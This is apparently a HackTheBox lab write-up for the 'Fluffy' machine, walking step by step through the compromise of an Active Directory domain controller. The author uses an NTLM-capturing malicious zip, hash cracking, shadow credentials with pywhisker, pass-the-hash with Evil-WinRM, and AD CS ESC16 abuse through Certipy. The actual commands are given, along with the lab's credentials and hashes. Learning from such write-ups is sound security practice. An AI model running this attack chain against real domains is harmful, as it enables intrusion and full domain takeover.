# Fluffy (HackTheBox)

I landed on the target with the provided credentials j.fleischman:J0elTHEM4n1990! and started with a quick sweep to understand the exposed surface. Nmap immediately confirmed we were dealing with a Windows AD environment on a DC.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-24 20:04:16Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49757/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

I pivoted to SMB enumeration with enum4linux. Shares were visible and a few were accessible without admin privileges, which is typically where low-hanging fruit lives.

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
IT              Disk
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share

//10.10.11.69/IT Mapping: OK Listing: OK Writing: N/A
//10.10.11.69/NETLOGON Mapping: OK Listing: OK Writing: N/A
//10.10.11.69/SYSVOL Mapping: OK Listing: N/A Writing: N/A
```

On IT and SYSVOL, I pulled interesting files. In IT, a PDF discussed software that needed upgrades due to newly disclosed CVEs.



I found an exploit for the second CVE referenced: https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom. The idea was straightforward: craft a malicious zip; when unzipped by a user, capture NTLM. That worked as expected and I collected hashes, then cracked one with hashcat to land valid credentials.



Credentials in hand (p.agila:prometheusx-303), I ran BloodHound to map potential privilege paths. It highlighted a road to the WINRM_SVC account worth pursuing.



The key was group-based rights. I added my user to the “SERVICE ACCOUNTS” group, which then granted GenericWrite over members of that group.

```
net rpc group addmem "SERVICE ACCOUNTS" "P.AGILA" -U "FLUFFY.HTB"/"P.AGILA"%"prometheusx-303" -S 10.10.11.69
net rpc group members "SERVICE ACCOUNTS" -U "FLUFFY.HTB"/"P.AGILA"%prometheusx-303 -S 10.10.11.69
```
With GenericWrite on the winrm_svc object, I used the shadow credentials technique. In AD, the msDS-KeyCredentialLink (KeyCredential) attribute stores public keys for passwordless authentication such as Windows Hello for Business (key-trust), FIDO2/Passkeys, or device registration. If I can write this attribute on an account, I can add my key; the KDC will then accept PKINIT with that key/certificate, letting me authenticate as that account without knowing its password or touching its hashes. It’s stealthy (no password reset) and persists until the key is removed.

I added a KeyCredential to winrm_svc with pywhisker, tried PKINIT, and when needed derived the NT hash from the same key material for tool compatibility (Evil-WinRM).

```
pywhisker -d 10.10.11.69 -t winrm_svc -a add -u "p.agila" -p "prometheusx-303"
```



I first tried to use the certificate directly (PKINIT) to authenticate without touching NTLM. I attempted to grab a TGT with gettgtpkinit and faketime to smooth out clock skew:

```
faketime '17:32:10' ./gettgtpkinit.py -cert-pfx ../pywhisker/MFUWgcJ5.pfx -pfx-pass eESMVucIuvpH1LUQAEdi -dc-ip 10.10.11.69 fluffy.htb/winrm_svc ../../fluffy/winrm_svc.ccache
```

That didn’t give me a reliable path to a WinRM session, so I switched gears once I realized I’d need a hash for the tooling. I derived the NT hash from the same key material with PKINITtoolkit:

```
faketime '17:42' python3 getnthash.py -key 'b2ec37b448f0fad3e9aa878249fd27a6fc4cd53cff5f241a5870385340e65af8' FLUFFY.HTB/winrm_svc
```

With the recovered NT hash (33bd09dcd697600edf6b3a7af4875767), Evil-WinRM worked as winrm_svc:

```
evil-winrm -i 10.10.11.69 -u winrm_svc -H '33bd09dcd697600edf6b3a7af4875767'
```



That yielded the initial foothold and the user flag, which lived on the user’s Desktop.



Post-foothold, I went deeper into AD CS. The ca_svc account stood out: it could enroll for certificates, which is always worth investigating in mixed-permissions environments.




I repeated the same PKINIT/shadow-cred approach used earlier and obtained the NT hash for ca_svc:
ca_svc: ca0f4f9e9eb8a092addf53bb03fc98c8.

Running Certipy against the CA with ca_svc, I discovered the CA was vulnerable to ESC16.



Reference: https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

The conditions matched perfectly: I controlled an account (p.agila) with GenericWrite over ca_svc’s UPN, and ca_svc itself could enroll client-auth certs. I updated ca_svc’s UPN to “administrator” using Certipy’s account operation (I noted the original UPN to revert later):

```
certipy-ad account \
    -u 'p.agila' -p 'prometheusx-303' \
    -dc-ip '10.10.11.69' -upn 'administrator' \
    -user 'ca_svc' update
```



With that, I requested a certificate using the User template as ca_svc, effectively impersonating the administrator through the UPN.



I reset ca_svc’s UPN back to its original value to stay clean.



Finally, I authenticated using the obtained certificate and extracted the NT hash for the Administrator account, then logged in with Evil-WinRM to finish the box and collect root from the Desktop.




This was one of my first Windows boxes. The initial CVE bait was fine but secondary; the real learning came from exploring AD fundamentals, BloodHound paths, group-based rights, and especially AD CS. Understanding Certipy and ESC paths like ESC16 made the escalation both clean and satisfying. Looking forward to more AD/AD CS-heavy boxes to reinforce the workflow.